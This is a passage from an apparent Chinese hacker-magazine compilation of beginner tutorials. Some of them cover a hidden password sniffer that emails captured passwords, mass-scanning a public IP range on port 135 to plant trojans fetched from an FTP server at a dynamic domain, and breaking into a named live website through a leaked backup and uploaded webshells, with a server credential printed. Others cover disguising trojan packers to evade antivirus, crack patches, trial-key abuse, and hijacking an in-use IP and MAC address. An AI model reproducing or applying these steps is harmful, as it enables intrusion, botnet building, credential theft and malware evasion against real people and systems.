在“接收参数”中进行如下设置。选中“自动发送密码到指定的邮箱”选项，以便密码发送到指定接收邮箱中。自定义邮件主题：为避免邮件服务器将发送的邮件当做垃圾邮件处理，将邮件主题修改为自己喜欢的邮件主题。接收密码的邮件地址：在此输入接收监听得到的密码的邮箱地址。测试：点击该按钮，将使用发送邮箱地址向接收邮箱地址发送一封测试邮件，如果邮件发送成功，说明你的邮件参数配置正确，才能正常接收监听


到的密码。
关于“ASP发送”选项，如果我们有一个支持ASP+ACCESS的网站或者个人主页空间，就可以使用ASP方式将监听到的密码发送到你的主页空间的数据库中。“自动保存”就是是否将密码保存到本地文件中，建议不要选择这项。所有参数设置完成后记得按“应用”按钮才会生效哦。

5、最后是“密码保护”和“其他”的设置，对于密码保护，也就是设置当软件隐藏界面后，重新呼出时要输入的密码，以防止别人非法呼出隐藏的界面。在“新密码”和“确认密码”中输入密码后点“应用”即可（图5）。


6、在其它设置中，“显示/隐藏界面热键设置”建议不要使用默认的设置，随便更改即可。在“启动参数设置”中“启动时隐藏界面”和“系统启动时自动启动”都要选中。“更新过滤器”是在线更新该程序监听使用的过滤器，以监听到更多密码（图6）。


全都设置好后点“应用”，前面的设置就会生效了。点“开始”程序就会开始监听了，点“隐藏”程序会切换到后台隐藏运行。如果想呼出程序界面，可以使用前面设置的热键。过一会儿就可以看到截获的密码了（图7）。


这款老牌国产的密码监听软件就介绍完了，如果各位读者还有什么不明白的地方可以到X档案官方论坛上一起交流。
（本文所涉及到的密码监听器已收录到光盘中）

## 让XP来享受Vista的ReadyBoost加速
Evil Fan

在微软最新的Vista操作系统里有一项新增加的ReadyBoost功能，它可以把闪存中的空间虚拟成缓存，依靠其高速随机访问能力为系统进行加速。这么好的一个功能，能否应用在我们的XP系统上呢？我们借助eBoostr这款软件，就可以让WindowsXP系统也轻松实现ReadyBoost功能了。

首先来介绍一下Eboostr功能：
- 为频繁使用的程序和文件智能缓存，以达到性能最大化；
- 支持USB和非USB移动设备，包括附加硬盘；
- 可以同时使用四个设备进行智能缓存；
- 兼容所有ReadyBoost设备。

看到了吧，是不是很强大啊！使用起来也非常简单，安装好eBoostr后，使用破解补丁覆盖原文件就行了。首先我们要接入USB设备，然后打开软


# 2008 合订本 上卷

# 傻瓜黑客

件，进入“编辑”，选择“增加新的缓存装置”，就会显示出你的 USB 设备，比如我使用的是 1G 的 U 盘。我们还可以拖动下面的滑块来调整用于加速的空间的大小，然后点击“OK”就可以了（图1）。需要注意的是你的 USB 设备必须是 USB2.0 规格的，我在使用 1G 的 U 盘进行测试时，有时会出现好多问题，可能是因为我的 U 盘容量太小了，所以建议选用大容量的 U 盘，这样就会显著提升系统速度了。相信你用过 Eboostr 后，再也不用羡慕 Vista 里面才有的 ReadyBoost 功能了。

（本文所涉及到的 Eboostr 已收录到光盘中）

## 菜鸟都来跟我学

### 用135端口抓肉鸡


对于 WindowsXP 系统自从 MS06040 漏洞后就没有其它更好的人侵方法了，虽然在网上也能找到一些方法，但是都不怎么实用，这次我就为大家介绍一个比较简单又对 WindowsXP 系统可行的方法——利用 135 端口抓肉鸡。

要想通过 135 端口成功抓到 WindowsXP 肉鸡，则肉鸡必须要满足两个条件：1、它的 135 端口一定是打开。2、对方必须存在弱口令。只有满足了这两个条件，你才有可能成功抓到 WindowsXP 肉鸡。

> 小知识：135 端口是做什么的？
135 端口，主要用于使用 RPC（Remote Procedure Call，远程过程调用）协议并提供 DCOM（分布式组件对象模型）服务，通过 RPC 可以保证在一台计算机上运行的程序可以顺利地执行远程计算机上的代码；使用 DCOM 可以通过网络直接进行通信，能够包括 HTTP 协议在内的多种网络传输。


下面我就和我一起来抓鸡吧，打开“领域小组专用批量抓鸡器”，在端口里输入 135，输入要扫描的开始 IP 地址 125.123.10.1 以及结束的 IP 地址 125.123.250.254，如图1。这个 IP 段设置的比较大，扫描的时间可能会久一点，不过扫描的范围越大，我们的成功率也就会越高。

接着点“XP 扫描”，程序就会自动调用 S 扫描器进行扫描了，如图2。扫描的速度相当快，休息一会儿，扫描结果就会出来了（注意：如果什么都没有扫描到，可以先检查一下自己电脑相应的服务有没有打开，比如 TCP/IP NetBIOS Helper、Remote Procedure Call (RPC) Locator、NTLM Security Support Provider，另外本机的 admin$ 也要打开）。


现在 S 扫描器的窗口已经没有了，说明扫描已经全部完成了，那些扫描出来的结果会自动保存在当前文件夹下的 Result.txt 文件里。下面我们要整理一下这个文件，选择“领域小组专用批量抓鸡器”的“自动整理 IP”，然后选择“修正并保存文件”，如图3。

现在这些整理完的开启 135 端口的 IP 地址就都保存到 host.txt 文件里了，接下来我们需要再次扫描这些开启 135 端口的 IP 地址是否存在弱口令。打开“NTscan.exe”，勾选上“主机文件”，选择我们刚才整理好的 host.txt 文件，线程选择 800 就可以（要根据自己系统当前的 TCP 连接数，我的 TCP 连接数是 1024），连接共享还是 admin$，选择“WMI 扫描”，然后去掉“在扫描之前 ping”和“扫描打开端口的主机”，将速度滑块拉到底（这个可以根据自己电脑的配置情况进行选择），最后点“开始”，经过 30 分钟的扫描，结果终于出来了，如图4。

最后扫描出来的这几个存在空口令的 IP 地址都保存在了 NTscan.txt 文件里，我也同样使用“领域小组专用批量抓鸡器”的“自动整理 IP”功能进行整理，保存成了 1210.txt，如图 5。

整理完毕后，我们就要做溢出前的准备工作了，首先得要准备一个配置好的木马服务端程序和一个 FTP 服务器，并且拥有一个动态的域名，我使用的动态域名是 jxcctv.vicp.net（关于动态域名，大家可以使用花生壳）。现在来架设一个 FTP 服务器，打开“迷你型多功能服务器”，选择“FTPServer”，FTP 主目录就选你存放木马服务端的那个目录，服务端口使用 21 就可以，用户名和密码都使用 123，这个随便你设置，如图 6。

我们以文本的方式打开 c:\1.bat，将文本里的“FTP 地址”替换成你的 FTP 地址：jxcctv.vicp.net（注：其实在这儿直接使用你的 IP 地址也行，不过为了方便木马上线，还是使用动态域名好），再将 FTP 帐号和 FTP 密码这几个字依次替换你的 FTP 帐号和 FTP 密码 123，如图 7。

图 7 中的 echo. & pause 这句代码，是为了让一会儿的溢出结果看的更清楚，我才加上去的。开始溢出，打开“通用批量溢出程序”，程序名就选择 1.bat，点下边的“浏览”，选中 1210.txt 文件，端口为空，最后点“开始”，如图 8。接着就会弹出好多 cmd 窗口，你别急着关闭，不一会儿溢出就成功了，如图 9。

由于我事先在 1.bat 里加了一句 echo. & pause，所以在成功溢出后需要手动关闭才行。如果没有溢出成功，程序就会返回如图 10 所示的信息。

接着来看看你的木马客户端，三台主机都上线了哦，如图 11。如果上线不到三台，则说明你的木马被对方的杀毒软件给干掉了。

那么我们预防 135 端口被人侵呢？一是可以给你的电脑添加一个强悍点的密码。二是最好关闭 135 端口。如何关闭 135 端口呢？我们可以使用一款 16 进制编辑软件（推荐 UltraEdit）打开你的系统 x:\winnt\system32 或者 x:\windows\system32 下的 rpcss.dll 文件，查找 31 00 33 00 35，将其替换为 30 00 30 00 30，查找 100330035，将其替换为 3000300030，意思就是将 135 端口改为 000，如图 12。


图 4

图 5


图 6


图 7


图 8


图 9


图 10


至此修改的任务已经完成，下面将面临一个保存的问题。因为该文件正在运行，在 Windows 环境下是不能覆盖的。如果你是 FAT32 文件系统，那么直接引导进 DOS 环境，将修改好的文件覆盖掉原来的文件。如果是 NTFS 格式，相对就麻烦一些。进入安全模式，然后启动 pulist 列出进程，使用 pskill 这个程序杀掉 svchost.exe 程序（注：关闭这个进程可能会出现倒计时关机的画面，你只要在运行里输入 shutdown -a 回车，就可以停止倒计时了），然后再 COPY 过去。覆盖后重新启动，使用 netstat -an 命令，就可以看到 WindowsXP 下已经没有 135 端口了，如图 13。相信大家看了本文后，一定都学会如何利用 135 端口来抓肉鸡了吧，最后祝大家在新的一年里肉鸡多多。（本文所涉及到的工具领域小组专用批量抓鸡器、NTscan、迷你多功能服务器以及相关代码等已收录到光盘中）

## 菜鸟拿站也不难

很多刚入门的小菜不知道怎么拿站，都说拿站怎么那么难。追溯到 2005 年，拿站是多么轻松的一件事啊，很多站点都是被上传漏洞给搞定的，那时候的小菜拿个注人工具几分钟就能搞定 n 个站点，好怀念啊。现在的网站对于上传漏洞基本上都补上了，或者转移到了地下（只有一定权限你才能利用）。而注人工具的泛滥又使得注人漏洞变的越来越少，而且自从出了防注人工具后，对于菜鸟来说，人侵更是难上加难了。

其实呀，拿站也不难，为什么呢？其原因就来源于google搜索和挖掘鸡这款工具的诞生，自从有了挖掘鸡，就提升了我们人侵的速度和降低了人侵的技术，使我们菜鸟也能人侵大站。今天我们就说一下 http://code.vvind.com 这个网站，拾到源码网，如图 1。

这个网站上的所有链接都是由挖掘鸡挖掘出来的，主要挖掘网站源代码，那么我们的思路就有了。这么多的 rar，有很多都是管理员在建立网站时忘记删除的网站源代码，或是建立完网站在备份的时候忘记删除的，这就使得我们有了可乘之机。我们以 www.jjhl.net 这个站点为例，来讲一下怎么人侵。首先下载那个 www.rar 文件，然后解压缩看着里面都是什么，如图 2，图 3。


在对方admin目录下找到的login.asp文件包含了本目录下的conn.asp（数据库链接文件），然后在conn.asp文件里找到了数据库地址，如图5。打开数据库后找到了管理员的帐号和密码，而且居然还是明文显示的，如图6。


直接登录后台，找上传的地方来上传木马，在前边我们说过上传漏洞现在已经隐藏了，如果我们是管理员的话就有可能直接上传木马，来看看我们的运气吧。找到上传的地方了，但是抓包后发现没有可利用的地方，如图7。

上图说明了两个问题：1、上传路径不可自定义；2、有同行先来过了（这个看上面的asp类型就知道了，我可没有添加哦）。只好放弃这个上传的地方，接着再找上传，又发现了一处，如图8。

刚点上传就直接弹出了“请选择jpg或gif文件！”，如图9。对于经常入侵网站的朋友应该了解，这是本地验证，找到软件柿子噢。我们来看源代码：`<INPUT name=image type=hidden value=>` `<iframe marginwidth=0 framespacing=0 marginheight=0 frameborder=0 width="426" height=25 src="picture.asp"></iframe>`

iframe>，看到了picture.asp（上传文件），那么我们直接提交http://www.jjhl.net/admin/picture.asp，上传地址出来了，如图10。


突破本地上传的方法是把本地验证图片格式的代码直接删掉，或者修改代码中的文件后缀名换成你要上传的文件后缀名（这段代码怎么查找呢？大家观察图9，给出的提示语句就是我们搜索的关键，如果怕误删造成网页错误，可以使用查找替换功能把jpg换成asp，也省去了查找代码的烦恼）。修改了本地验证，还有重要的一步，就是把提交地址补全：`<form name="myform" method="post" action="upfile.asp" enctype="multipart/form-data" language="javascript" onsubmit="return check();">`改成`<form name="myform" method="post" action="http://www.jjhl.net/admin/upfile.asp" enctype="multipart/form-data" language="javascript" onsubmit="return check();">`。本地提交时我们再拿出抓包工具抓到上传地址，如图 11。


输入地址得到小马，然后上传大马，看了一下服务器，各盘基本都能浏览，WScript.Shell 被删或被改，在 D 盘看到了 Serv-U，3389 端口开了并且能登录，如图 12。下载 ServUDaemon.exe，使用 WINHEX 打开文件查看密码，发现帐号密码改成 linboAdministrator和 #1@$in#.bo;1@P，那么我想端口也应该改了，事实也证明了我的想法，使用默认端口提权没成功。那么怎么找呢？看到 C 盘我眼前一亮，支持 php 和 perl，对于 perl 不太了解，而 php 相对了解些，那么就上传 php 木马吧，如图 13，图 14。


Php 木马的权限可比 asp 的高，我们执行命令查看端口netstat -an，看到 58943 端口有点特别，如图 15。直接在 su.asp 里输入这个端口进行提权，执行添加管理员命令，如图 16。然后直接使用 3389 登录，验证了刚才 SERVU 提权成功，如图 17。


其实菜鸟入侵就这么几招，很简单的就拿下了服务器。对于上面的下载源码方式，我们还可以拓展一下，比如挖掘海阳默认的打包文件HYTop.mdb，或其它的默认文件，这就靠大家去发挥了，祝大家肉鸡多多。
（本文所涉及到的抓包软件已收录到光盘中）


## 看菜鸟如何伪装程序

姬良(崔承琦)

每个程序员都不希望自己辛辛苦苦编写出来的程序被人破解，所以便有了程序伪装的技术。大多数破解者检测软件是否加壳或者加的什么壳时使用的基本上是PEID这个软件，先来了解一下PEID检测的原理：因为程序被不同的壳处理后，文件头的代码是不同的，所以PEID就以文件头代码来确定文件是使用什么语言编写或者加的是什么壳。正因为如此，如果我们稍作修改的话不仅能够欺骗PEID，还会实现部分的“免杀”。下面我就使用winshell5.0最终版来进行演示。

先生成一个服务端服务（当然选择不加壳），然后给这个服务端加上ASPack2.12的壳，如图1。使用PEID检测一下，检测出被加了ASPack2.12的壳了，如图2。拿出zeroadd1.0给加过壳的服务端加个区段，区段名称最好和所要加的花指令匹配。比如说，如果想把aspack2.12壳伪装成北斗壳，那么加的区段名称就用 .nsp，花指令就加北斗文件头的指令。我们的目标是把ASPack2.12壳伪装成Microsoft Visual C++ 6.0，所以名称就为 .edata 或者 .text。至于大小就没什么特别的要求了，但是也不要太大，如图3。


打开PEID查看处理过的文件，点“区段”右面的那个小箭头，出现如图4所示的界面，记住我们加的区段edata的人口地址，这里是0000B000。然后点首字节后面的小箭头，出现如图5所示的界面，其中的第一行就是实际入口地址，这里是004008001。


打开Peditor1.7，载入我们的服务端，把入口点改成0000B000，也就是刚才所加区段地址，如图6。

然后打开OD载入刚才修改过入口点的服务端，这时OD会提示我们，程序入口点被指定，不用理会，点确定。从OD停留处依次输入如下指令（C++的花指令）：

```
push ebp
mov ebp,esp
PUSH 1
PUSH 0
PUSH 0
PUSH 0
MOV EAX,DWORD PTR FS:[0]
PUSH EAX
```

```
PUSHAD
MOV EAX,00406001
JMP 45D84F7
PUSH EBP
MOV EBP,ESP
...
MOV EAX,DWORD PTR FS:[0]
SUB ESP,68
PUSH EBX
PUSH ESI
PUSH EDI
POP EAX
POP EAX
```


```
POP EAX
ADD ESP,68
POP EAX
MOV DWORD PTR FS:[0],EAX
POP EAX
POP EAX
POP EAX
POP EAX
MOV EBP,EAX
JMP 004008001 (这也就是原实际入口地址)
```

点鼠标右键选择“复制到可执行文件”，再选择“选择部分”，然后保存。最后使用 PEID 查看一下生成的文件，结果显示是“Microsoft Visual C++ 6.0”，也就是我们加的花指令所对应的语言（图 7）。此时已经完成了对 PEID 的欺骗。我在前面也曾经说过，这种方法还可以实现“免杀”，经过测试，可以过大部分的杀毒软件（本来就是加花免杀，只不过这里用做的“伪装壳”）。这种做法的好处就是可以让菜鸟破解者误以为程序没加壳从而使他破解路程走的很艰难，运用这种方法伪装的程序有很多，最出名的就是响当 QQ 大盗 VIP 版的服务端生成器了。

下面再来看第二种方法，修改壳的文件头的指令，这样 OD 就不认识了，但是为了使程序可以正常运行，替换时要注意语句的等效性，这需要一些简单的汇编知识。比如 +7 和 - (-7) 是相等的，或者前后两句互相调换也可以，不会影响程序执行的地方都可以改。下面进入实战，先使用北斗 3.7 的壳给生成的 winshellv5.0 的服务加个壳（生成时不加壳）。这里要注意，在加壳前要先对北斗进行设置：把北斗壳的默认区段名改掉，如果不改，另从使用 PEID 看我们处理过的程序时，虽然看不到是什么加的壳，但一看区段名就一目了然了，因为北斗壳的区段名默认为“nsp”。然后使用 OD 载入加过北斗壳的服务端（图 8），我们把“sub esp, 7”改成“add ebp, -7”，再把“je 004094DC”改成“jz 004094DC”（je 和 jz 都是跳转的意思），相当于什么也不变，一样可以运行，但是 PEID 已经不认识这个壳了（我指的是标准版的 PEID，网上有加强版的也许还可以认出），同样有的杀毒软件也不认识了。

上面的这两种方法可以对付一些初级破解者，把他困在脱壳这里。还可以在免杀过程中，对加密壳进一步伪装，以达到完美的免杀效果。

（本文所涉及到的 ASPack2.12、zeroadd1.0、PE 反汇编工具、OllyICE、PEID 和 Peditor 已收录到光盘中）


## 无限次获取卡巴斯基激活码

如夏

关于杀毒软件的免费使用，像卡巴和金山都有免费的使用期限，卡巴可以申请免费半年 KEY，金山可以申请免费一个月的通行证。如果想继续免费下去，常见的解决方法就是在虚拟机或是别人电脑上再申请一个继续使用。这种方法虽然简单，但其实用起来总有困难又显得没有技术含量。虽说我们小菜本着简单实用的原则，但是作为黑客不就是捣鼓一些别人看不懂的东西吗？所以我就给大家演示一下卡巴免费激活码的“复杂”申请过程，至于金山就留待各位自己去研究了。

360 安全卫士是靠注册表和网卡的 MAC 地址来验证用户是否申请过卡巴激活码，经过修改注册表和网卡的 MAC 地址，可以做到无限次申请。

第一步：删除注册表项。注意，开始前要把 360 安全卫士关闭！

1、选择“开始”→“运行”，输入“Regedit”来调出注册表（图 1）。

2、找到“HKEY_LOCAL_MACHINE”→“SOFTWARE”，删除“360Safe”项，如图 2。


# 傻瓜黑客

第二步：修改网卡的MAC地址

1、在桌面上的“网上邻居”图标上点击鼠标右键，选择“属性”（图3）。


2、在弹出的“网络和拨号连接”窗口中一般有两个图标，一个是“新建连接”图标，一个是“本地连接”图标。如果你的电脑上有两个网卡的话，那就有三个图标了。如果你只有一个网卡，那就在“本地连接”图标上点右键，选择“属性”（图4）。


3、在“本地连接 属性”的窗口上部有一个“连接时使用：”的标识，下面就是你电脑上的网卡型号了。点击“配置”按钮，进入网卡的属性对话框（图5）。


4、对话框中有五个属性页，点击第二项“高级”，在“属性”标识下有两项：一个是“Link Speed/Duplex Mode”，这是设置网卡工作速率的，我们需要改的是下面一个“Network Address”，点击该项，在对话框右边的“值”标识下有两个单选项，默认得是“不存在”（图6）。我们只要选中上面一个单选项，然后在右边的框中输入你想改的网卡MAC地址（例如：000AEB245932），点“确定”，等待一会儿，网卡MAC的地址就改好了（图7）。注：这个选项不是每个网卡都有的，像小编的网卡就不行，这时想修改MAC地址可以借助专门的软件。


小提示：你可以先获取本机网卡的MAC地址，然后根据这个地址来列改。获取本机网卡的MAC地址方法：在


Windows2000/XP中，依次单击“开始”→“运行”→输入“CMD”，在CMD命令提示符下输入“ipconfig /all”→回车，“Physical Address”那一行的后边即MAC地址（图8）

第三步：获取卡巴斯基的激活码
运行“360安全卫士”→点击“杀毒”→“卡巴斯基查毒”→登录。
点击“立即获取卡巴斯基激活码”，成功获取激活码（图9，图10）。


破坏病毒[黑客X档案秘密小组]

## 巧得六间房MP4视频真实地址

最近六间房也出了高清视频，如何下载保存在电脑上呢，我首先想到了嗅探类的工具，但是视频站都改了方法，现在很少能嗅探到真实的地址了，看来只能从页面上想办法了。

首先进入六间房找到高清列表的随便一个地址，比如http://6.cn/profile/playlist.php?p=142627，点击进入高清播放页（图1）；http://6.cn/plist/142627/0.html，等待视频可以正常播放（为什么强调要正常播放呢？这是因为高清视频是要最新的FLASH播放器才可以的，如果你不是最新的可以到http://r.6.cn/images/player/install_flash_player_active_x.exe下载安装，如图2）。


现在可以转到IE临时文件夹：C:\Documents and Settings\你电脑名称\Local Settings\Temporary Internet Files或者查看Internet Explorer属性，在常规的Internet临时文件夹里选择“设置”，点击“查看文件”来打开临时文件夹（图3）。


在这里找到以v*.php开头的文件（图4），如果有太多文件可以先清理一下临时文件再重复上述过程。把刚才找到的文件复制到其它目录里，查看网页文件源代码。很容易就找了冰封世纪的高清视频下载地址http://vdn43.6rooms.com/hd/Age_001.mp4，如图5。高清视频的格式是MP4，不是FLV，不要找错哟。


## PHP 环境一步来搞定

薛云

今天整理电脑时发现了前一阵子留下的好东西，分享给大家。这个工具的全名叫 Apache+PHP+MySQL服务器套件，如图 1。我这个是04 年的 1.1 版，别看年数早版本低，功能可一点儿也不逊色！不废话了，先把我们的工具（一个自解压包）进行解压缩。默认路径是 D:\usr，别怪我 没提醒各位，千万不要更改这个路径，否则会出错的（我将这个东西做成了自解压文件，不放心 的朋友也可以手动进行安装）。

接下来我们看看目录里都有些什么文件，如图 2。不用犹豫直接运行 install.bat，如果成功的话就会看到如图 3，图 4 所示的提示信息。关闭这个记事本，这样就算安装完毕了。


我们打开浏览器，输入 http://localhost，回车后看到如图 5 所示的页面。OK，如果到这里都没有出错，那恭喜你了，已经安装成功喽。下面我们一起来看看程序的目录介绍：


```
D:\usr\                        服务器总目录
  +--\bin\                    ActivePerl 解释器目录
  +--\local\                  程序目录
  +--\apache\                 Apache 程序目录
  +--\mysql\                  MySQL 程序目录
  +--\php\                    PHP 解释器目录
  +--\Zend\                   Zend Optimizer 程序目录
  +--\www\                    网站目录
  |   +--\html\               网站根(/)目录
  |   +--\cgi-bin\            /cgi-bin/目录
```

根据这个目录大家应该知道该把网页放哪儿了吧？没错，就是 D:\usr\www\html。顺便给大家做个演示，就来安装一个

## 2008 合订本 上卷

# 傻瓜黑客

Discuz 论坛吧。

我们把从 Discuz! 官网下载的压缩包解压缩，如图 6。把
upload 目录移动到 D:\usr\www\html 目录下，更名为 bbs（这
个可以随便起），然后打开浏览器，输入 http://localhost/bbs/
install.php，如图 7。


图 6


图 7

这就是正式安装的界面了，点“同意”后，再点“下
一步”，就会看到要求填写数据库的页面。第一个是数
据库的 IP 地址，由于我们的程序已经集成了，所以这里
是 localhost，默认情况下相当于 127.0.0.1；第二个是数
据库用户名，我们这里是“root”；第三个是数据库密码，
这里为空；第四个是库名；最后一个表前缀是用来区分
相同库中其它程序所使用的数据，一般默认就行，除非你安装
了两个以上的相同程序（不单单是 Discuz! 所有的都是），填写完
毕后接着点下一步。接下来填上帐号、EMAIL、密码，再点下
一步，直到看到如图 8 所示的页面就说明你的数据库创建成功，
论坛也就算可以使用了。后面就是添加模块、更换风格、检查


图 8

安全性之类的操作了……

最后再提醒一下，这个工具用来测试还可以，可是安全性就
不是很好，会使用不少默认漏洞，所以千万别放到网上哟！
（本文所涉及到的 Apache+PHP+MySQL 服务器套件和 Discuz! 论坛
已收录到光盘中）

## 教你用 QuickBFC 编译批处理文件

梁天爽

你是否自己编写过批处理文件？批处理文件以其简单的
编写方式，低端的系统软硬件要求和丰富的功能赢得了不少初
学小菜的喜爱。只要在 TXT 文件中输入命令，并保存，将扩展
名改为 .BAT 就可以直接使用了，既简单又方便，非常适合小
菜们使用。但是，正是由于它的这个特点，也使其变得十分
容易被未经授权者简单破解和修改，只要把 BAT 改成 TXT 就
可以看到并修改了（其实直接使用记事本打开 BAT 文件就行，
不用更改扩展名的），这样自己写的 BAT 也会被人轻易的乱改
一通，你忍心这样吗？菜菜们一定要用技术捍卫自己批处理的
尊严！

今天，我给大家带来“Quick Batch File (De)Compiler
2.070 完美解密套装版”这款软件，其功能强大，尤其是反汇
编功能。我是根据网上的汉化版做的破解版，汉化版居然也要
注册，我就顺手给破解了，好事做到底，省了大家 87 美元。它
可以将任何 BAT、CMD 批处理脚本编译为 EXE 文件，并可以
更改图标及出品公司等内容。此解密版包含编译器
（Compiler，v2.0.7.0）和反编译器（DeCompiler，v1.0.3.6）
两大程序。酷就酷在它允许用户创建在后台运行的“幽灵程
序”，还可以向生成的 EXE 文件中捆绑任何文件并通过命令行
调用，幽灵程序驻留内存的能力在这个版本中进一步增强。但
事有两面，这也造成了释放捆绑文件并运行后的 delete 命令有
时无效。编译后的 EXE 可以在一定程度上加密，防止未授权
者看到源 BAT 内容。这些特性在同类软件中是绝无仅有的，让
我们立刻拿起软件来体验一下吧。

首先解压光盘上的安装包，直接绿色使用，免安装。正
好前两天从 X 档案论坛上找到个“系统清理的.BAT”文件，
我们就以这个文件来进行演示，以修改这个文件的过程为例教
大家使用本软件。首先打开“QuickBFC.EXE”，点击“文件”
→“打开”，浏览之前找到的“系统清理的.BAT”文件，并打
开，如图 1。我来简单介绍一下语法并分析一下这个批处理，
以便我们的修改。“echo”后面这行是打开软件用户看到的话，
一般做软件介绍、作者和提示步骤；中间的那大段话大概意思
就是先搜索后删除 C/D/E/F 等硬盘扩展名为 .bmp、.log、
.gid、.chk 和 .old 的系统用不到的临时文件，以达到提速的目

# 傻瓜黑客

的。这个对于 XP 用户来说作用尤为明显，尤其是 XP 版系统临时文件特别多。不信你每次开机都运行这款批处理，每次都会删除一大堆临时文件，对于有用的系统临时文件则会提示“另一个进程正在访问，无法删除”然后自动跳过，大可放心。因为我系统配置不好，所以我把这个批处理造成开机自动启动了。现在，我们可以在“echo”后面这行输入要说的话，在第一行加入“ 黑客X档案测试专用版”的语句，最后一行加上“欢迎使用黑客 X 档案测试专用版软件”等个性语句。然后点击上面自设资源一行，文件说明后面填上“x档案测试专用系统垃圾清理软件”，公司名称后面填上“黑客X档案大秦资源开发部”字样，版本号后面随便输一串版本号，我们就让输入“8.8.8.8”。然后程序图标随便找一个，ICO文件确定（图 2），没有的话可以在 http://www.bitbug.net/ 网站上传普通图片转换成 ICO 格式并下载，很清晰，不会失真（图 3）。

的文件也在光盘中，方便大家研究，对于系统配置不是很好的XP用户也很实用。

## 在线制作ico图标 - ico图标转换工具


接下来介绍特色功能了，点击上面的“捆绑”，可以浏览一个最终可执行的 EXE 文件捆绑，但还是希望大家不要捆绑过大的文件，避免影响操作速度。最后，一切都设置完毕后点击上面的创建按钮，在弹出的另存为框中输入要储存的路径及文件名，如图 4。我们打开修改的文件，此时扩展名已经是.EXE了，图标和介绍也是我们想要的了，如图 5，图 6。这两个修改前后

大家还是尽量好好使用这款软件，打造我们自己的第一款个人工具吧！EXE 的可比 BAT 的帅多了啊，还可以顺便绑定个文件。其实未必要绑木马，随便绑点好玩的恶搞下朋友就行了，不要用它搞破坏啊。
（本文所涉及到的 Quick Batch File Compiler 已收录到光盘中）

### 什么是 Cookies 注入?

这是目前非常流行的一种攻击方式，普通的注入攻击很好防范。但把注入语句加进 Cookies 中提交就往往被人忽略。当一套程序的 Cookies 没有过滤严谨时，就为攻击者打开方便之门，而且还可以无视防注入系统。


## 2008 合订本上卷

## 撕破影子，还原系统

Hillfeet

最近一位朋友说把我给他安装的影子系统的密码给忘记了，以至于系统根本进不去。一开始接到这个问题很是棘手，在Windows以外破解影子密码不太现实，只能从文件方面下手了。

影子系统的“正常、部分还原和全部还原”在系统启动前有一个选择菜单，我首先想从这里下手，把这里改回原来的启动信息就有可能成功了。我先用一张Win98系统盘引导进了DOS，可根本看不到硬盘的一个盘符（这是因为Win98的DOS不支持硬盘的NTFS格式，现在有的安装盘会带支持NTFS格式的DOS）。我忽然想起XP系统盘在安装之前有一个叫“故障恢复控制台”的东西，后来一试果然能访问NTFS磁盘了，算是初战告捷。

使用“故障恢复控制台”进入C盘，看到了boot.ini，这就是系统启动配置文件，又看到一个影子系统做的boot.ini备份bootbak.ini。很是开心，直接将boot.ini改名，再将bootbak.ini改回boot.ini（语法是Rename [drive:][path]filename1 filename2）。

重新启动果真有系统选择界面了，直接进入了系统。进入系统后先在桌面保存一个文件，重新启动，但是很遗憾，失败了，在其它盘里保存也失败了，上面的操作将系统变成了一个完全还原的系统。不但如此，进入系统后还是照样启动影子系统的程序，而且确实显示的是完全还原。我猜想是否是启动影子系统程序的问题，就到SYSROOT:\WINDOWS\system32\shadow\下面找东西。将shadowSetting.exe删除后，认为系统不会启动控制软件了，但进行此操作后，重启计算机，控制器确实不开启了，但还原照样。

后来根据原则查了一下system32下含有shadow、power等关键词的文件，又结合文件修改时间，找到了snapshot.sys，这个文件是影子系统的核心驱动。它在\WINDOWS\system32\drivers目录里，描述是shadowsystem。将此文件删除后，系统顺利进入，文件照样保存。就此，影子系统被彻底突破。

## 教小菜来强行占用内部IP地址

伤脑筋

在内部网络，我们无法同时使用两个相同的IP地址，因为当我们更改的IP地址已经有人使用时，系统就会弹出一个“IP冲突提示”，把修改IP的操作给终止了。此时如果想使用这个IP，只能等对方关机或断网。出于某种目的，我们希望强行占用这个IP，能不能办到呢？答案是肯定的。

首先正常更改一下IP地址，通过抓包可以发现系统广播了三个ARP请求报文和一系列NETBIOS报文后，将IP成功更改。再更改一次IP地址，此时更改的IP为一个目前正在使用的一个IP。再次抓包后发现，系统在发送ARP请求报文后就收到了来自正在使用此IP的计算机发过来的ARP应答报文，它的ARP字段的源IP地址与我们本机IP地址一样，这样的ARP应答报文称为“免费ARP”报文。系统收到这样的应答报文后便会产生一个“IP冲突”的提示，然后就把更改IP的操作给终止了，因此无法在内部子网内使用相同的IP地址。

现在知道了系统是通过“免费ARP”报文来禁止使用相同的IP，那如果把“免费ARP”应答报文档截掉，系统还会禁止我们使用相同的IP吗？要拦截“免费ARP”应答报文，自己写代码有点儿困难，那就利用现成的工具吧。经过测试我发现antiarp防火墙（试用版有15天期限，到期后可以选择变为合作版继续使用，代价就是主页被修改成百度）可以拦截掉“免费ARP”应答报文。正常启用ARP防火墙功能后，不需要进行任何设置（图1）。现在再来把IP更改为已经有人在使用的IP地址。此时不会再收到“IP冲突提示”，几秒钟后更改IP便会成功（图2）。不过想安心的使用这个抢来的IP只是绕过本机系统的封锁还不行，还得绕过整个内网的“封锁”。

上一个步骤我们虽然把IP给成功更改了，但ping几次域名后便可以发现，网络时断时续，甚至无法上网。这是由于ARP协议的缘故，由于同一个IP已经有两个人使用，假设使用这个IP的A机器正在ping一个域名，那么它首先会广播一个ARP请求报文获取网关的MAC地址，网关收到请求报文后，会将请求报文内源IP对应的MAC地址更新到缓存。这个时候另一个同时使用此IP的B机器将出现断网，因为B机器的报文在发到网关后，网关并不会将返回报文发送给B了，而是会发送给刚才更新后的A机器对应的MAC地址，所以网络时断时续，并且因为机器请求MAC地址的报文是广播发送的，其中一台机器接收到这个报文后还会产生“IP冲突提示”。除非使用ARP防火墙屏蔽“免费ARP”报文。因此我们还得再做些手脚，把这些不该出现的问题解决了。解决的方法很简单，只需要将本机的MAC地址更改为和被占用机器的MAC地址一样，这些烦恼就全部解决了。


图3

要获取指定机器的MAC地址，我们可以使用nbstat -A 对方IP 这个命令来获取。但这个方法必须在对方启用NETBIOS协议的前提下才行，如果对方没有启用的话，还有一个方法，那就是通过ARP协议来获取。只需要PING一下对方的IP地址，然后使用arp -a就可以看到对方的MAC地址了（图3）。

